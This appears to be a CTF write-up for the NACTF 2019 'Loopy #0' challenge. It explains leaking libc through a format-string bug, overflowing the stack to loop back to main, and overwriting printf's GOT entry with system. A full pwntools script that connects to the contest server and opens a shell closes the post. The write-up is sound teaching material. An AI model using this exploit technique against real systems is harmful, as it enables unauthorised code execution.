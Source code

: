 +++
title = "nactf 2019 - Loopy #0"
date = 2019-09-22T20:39:04.285Z
updated = 2019-11-24T03:53:01.555Z
aliases = ["/posts/5d87dbe86e58ed23d8620868-nactf-2019-loopy-0-1"]
[taxonomies]
tags = ['nactf2019', 'binary-exploitation', 'pwntools', 'format-string', 'return-oriented-programming']
categories = ["ctf-writeups"]
+++

# Challenge

> This program is quite short, but has got `printf` and `gets` in it! This shouldn't be too hard, right?
>
> Connect at `nc shell.2019.nactf.com 31283`

We are given the libc used, the binary, and the source code.

```cpp
#include <stdio.h>

void vuln()
{
	char buf[64];
	fputs("Type something>", stdout);
	gets(buf);
	fputs("You typed: ", stdout);
	printf(buf);
}

int main()
{
	/* Disable buffering on stdout */
	setvbuf(stdout, NULL, _IONBF, 0);

	vuln();

	return 0;
}
```

<!-- more -->

# Solution

Because there is no win function like in the previous challenges, this requires us to call `system('/bin/sh')`. To do 
this, we need to leak the base address that `libc` is loaded at, and then add the offset to `system` before jumping to it.

## Leaking libc

To leak `libc`, we can use the format string vulnerability to read from the GOT. By trial and error, we see that the 
stack offset to `buf` with `printf` is 4: 

![](5d87da366e58ed23d8620866.png)

So, we can use `%4$s` to read the fourth value on the stack as a string. Since we control this value, we can read 
arbitrary addresses.

To read the value of `puts` in the GOT (address is `0x804c010`), we can do the following:
```python
payload1 = p32(0x804c010) + "%4$s"
```
This will give us the value that is stored at `0x804c010` which is the address of puts in memory. From this, we can 
calculate the address of `system`:
```python
GETS_ADDR = u32(r.recvn(4))
LIBC_BASE = GETS_ADDR - libc.symbols['gets']
SYSTEM_ADDR = LIBC_BASE + libc.symbols['system']
```

## Looping
However, we still need `printf` to overwrite a GOT entry. To keep looping, we can overflow `buf` and overwrite the 
return pointer:

``` python
payload1 = p32(0x804c010) + "%4$s"
payload2 = p32(elf.symbols['main'])*4
payload = payload1.ljust(64) + payload2
```

## Overwriting a GOT Entry
I chose to overwrite the GOT entry of `printf` because it is passed `buf` as its only argument. To do this, we can use 
the `%hn` format string to overwrite 2 bytes at a time:
```python
GOT_PRINTF = elf.got['printf']
GOT_PRINTF_LO = GOT_PRINTF
GOT_PRINTF_HI = GOT_PRINTF + 0x2

SYSTEM_ADDR_HI = SYSTEM_ADDR >> 16
SYSTEM_ADDR_LO = SYSTEM_ADDR - (SYSTEM_ADDR_HI << 16)

print("PRINTF GOT: " + hex(GOT_PRINTF))
print("SYSTEM_LO: " + hex(SYSTEM_ADDR_LO))
print("SYSTEM_HI: " + hex(SYSTEM_ADDR_HI))

p2 = SYSTEM_ADDR_LO
p1 = SYSTEM_ADDR_HI - p2

print(p1)
print(p2)

pad1 = "%" + str(p1) + "x"
pad2 = "%" + str(p2) + "x"

payload1 = pad2 + "%21$hn" + pad1 + "%20$hn;sh"
payload = payload1.ljust(64) + p32(GOT_PRINTF_HI) +  p32(GOT_PRINTF_LO) + payload2
r.sendline(payload)
```
# Full Script
```python
from pwn import *

elf = ELF('./loopy-0')
libc = ELF('./libc')
r = remote('shell.2019.nactf.com', 31283)

r.recvuntil('>')

payload1 = p32(0x804c010) + "%4$s"
payload2 = p32(elf.symbols['main'])*4
payload = payload1.ljust(64) + payload2

r.sendline(payload)
r.recvuntil(': ')
r.recvn(4)

GETS_ADDR = u32(r.recvn(4))
LIBC_BASE = GETS_ADDR - libc.symbols['gets']
SYSTEM_ADDR = LIBC_BASE + libc.symbols['system']
print("GETS: " + hex(GETS_ADDR))
print("LIBC: " + hex(LIBC_BASE))
print("SYSTEM: " + hex(SYSTEM_ADDR))

GOT_PRINTF = elf.got['printf']
GOT_PRINTF_LO = GOT_PRINTF
GOT_PRINTF_HI = GOT_PRINTF + 0x2

SYSTEM_ADDR_HI = SYSTEM_ADDR >> 16
SYSTEM_ADDR_LO = SYSTEM_ADDR - (SYSTEM_ADDR_HI << 16)

print("PRINTF GOT: " + hex(GOT_PRINTF))
print("SYSTEM_LO: " + hex(SYSTEM_ADDR_LO))
print("SYSTEM_HI: " + hex(SYSTEM_ADDR_HI))

p2 = SYSTEM_ADDR_LO
p1 = SYSTEM_ADDR_HI - p2

print(p1)
print(p2)

pad1 = "%" + str(p1) + "x"
pad2 = "%" + str(p2) + "x"

payload1 = pad2 + "%21$hn" + pad1 + "%20$hn;sh"
payload = payload1.ljust(64) + p32(GOT_PRINTF_HI) +  p32(GOT_PRINTF_LO) + payload2
r.sendline(payload)

r.interactive()
```
